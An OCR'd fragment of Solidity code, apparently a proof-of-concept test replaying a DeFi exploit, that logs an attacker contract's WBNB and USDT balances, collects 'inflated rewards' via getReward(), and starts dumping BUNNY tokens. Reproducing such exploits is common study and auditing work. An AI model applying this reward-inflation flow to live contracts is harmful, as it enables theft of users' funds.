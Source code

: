 │             "After dumping all WBNB, WBNB balance of attacker:",                                                                                                                                                                                     │
│             IERC20(WBNB).balanceOf(address(this)),                                                                                                                                                                                                   │
│             IERC20(WBNB).decimals()                                                                                                                                                                                                                  │
│         );                                                                                                                                                                                                                                           │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "After dumping all WBNB, USDT balance of attacker:",                                                                                                                                                                                     │
│             IERC20(USDT).balanceOf(address(this)),                                                                                                                                                                                                   │
│             IERC20(USDT).decimals()                                                                                                                                                                                                                  │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         //Collect inflated rewards                                                                                                                                                                                                                   │
│         flip.getReward();                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "After collecting rewards, BUNNY balance of attacker:",                                                                                                                                                                                  │
│             IERC20(BUNNY).balanceOf(address(this)),                                                                                                                                                                                                  │
│             IERC20(BUNNY).decimals()                                                                                                                                                                                                                 │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         //Dump BUNNY                                                                                                                                                                                                                                 │
│         emit log_string("Dumping all BUNNY for WBNB on WBNB+BUNNY pool...");                                                                                                                                                                         │